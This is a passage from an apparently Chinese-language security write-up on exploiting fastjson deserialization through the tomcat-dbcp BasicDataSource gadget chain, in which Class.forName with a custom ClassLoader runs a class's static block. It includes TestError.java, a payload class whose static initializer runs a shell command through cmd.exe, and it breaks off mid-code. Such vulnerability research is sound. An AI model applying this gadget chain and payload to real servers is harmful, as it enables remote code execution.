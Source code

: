 当前这里面还有一个坑，高版本的fastjson中加入了autoType属性，无法调用org.apache.tomcat.dbcp.dbcp.BasicDataSource。

![15](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/fastjson_47/15.png)



**利用链：**

```
BasicDataSource.getConnection()
   > createDataSource()
       > createConnectionFactory()
```

一连串的调用链，在 BasicDataSource.createConnectionFactory() 中会调用 Class.forName()，还可以自定义ClassLoader。如上一节所说 Class.forName() 在动态加载类时，默认会进行初始化，所以这里在动态加载的过程中会执行 static 代码段。

```
protected ConnectionFactory createConnectionFactory() throws SQLException {

    ...

    if (driverClassLoader == null) {
            driverFromCCL = Class.forName(driverClassName);
    } else {
            driverFromCCL = Class.forName(driverClassName, true, driverClassLoader);
    }
    ...
```

编写执行命令并抛出异常的class文件TestError.java

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.nio.charset.Charset;

public class TestError {
    static{
        try {
            exec("ipconfig");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static void exec(String cmd) throws Exception {
        InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
        InputStreamReader reader=new InputStreamReader(stream, Charset.forName("gbk"));
        BufferedReader bufferedReader =new BufferedReader(reader);
        StringBuffer buffer=new StringBuffer();
        String line=null;
        while((line=bufferedReader.readLine())!=null){
            buffer.append(line).append("\n");
```